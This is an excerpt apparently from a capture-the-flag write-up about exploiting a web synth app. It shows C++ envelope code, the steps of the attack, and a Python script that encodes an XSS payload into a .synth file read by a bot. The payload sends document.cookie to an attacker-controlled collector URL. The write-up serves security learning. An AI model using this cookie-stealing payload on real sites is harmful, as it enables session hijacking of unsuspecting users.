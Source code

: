 ```cpp
void VoiceManager::UpdateEnvelope(int i, float xa, float xd, float ys, float xr, float ya) {
  envelopes[i] = { xa, xd, ys, xr, ya };
  int xaInt = static_cast<uint8_t>(xa);
  int xdInt = static_cast<uint8_t>(xd);
  int o = xaInt - xdInt;
  if (o < -27 || o > 28) {
    EM_ASM({
      console.error(`Invalid offset value: ${$0}. It should be between -27 and 28.`);
    }, o);
    return;
  } else {
    this->offset = o;
  }
  SetEnvelope(i);
}
```

### Exploitation

The attack method involves:

1. Recording a sequence of notes with an initial shift in order to write the XSS payload in the `lyrics` variable, as shown in the script below
2. Exporting the composition as a `.synth` file. This can be done by clicking on the `Play` button
3. Uploading the file to the bot, which performs a GET request with parameters that call the `SetSynthData` method to populate the `keys` data structure
4. When the bot clicks `Play`, the exploit is executed, running the injected code

```python
import requests
import base64

botURL = "http://localhost:3000"
tohSynthURL = "http://localhost:3000"

pipedreamURL = "<YOUR_PIPEDREAM_URL>"
xssPayload = 'A' * 32 + '<img src="x.png" onerror="fetch(\'' + pipedreamURL + '/\'+document.cookie);"/>'

print(f"Payload: {xssPayload}\n")
print(f"Payload Length:{len(xssPayload)}\n")

synthData = ""
for x in xssPayload:
    char_ascii = ord(x)
    found = False
    
    offset = -27
    while offset >= -27 and offset <= 28:
        charCode = char_ascii + offset
        if 60 <= charCode <= 95:
            synthData += f"({charCode},{offset}),"
            found = True
            break
        offset += 1
    
    if not found:
        print(f"Cannot encode '{x}' (ASCII {char_ascii})")
        exit(1)
        
synthData = synthData.rstrip(",")
print(f"SynthData: {synthData}\n")
encoded_synthData = base64.b64encode(synthData.encode()).decode()
print(f"Base64-encoded SynthData: {encoded_synthData}\n")
```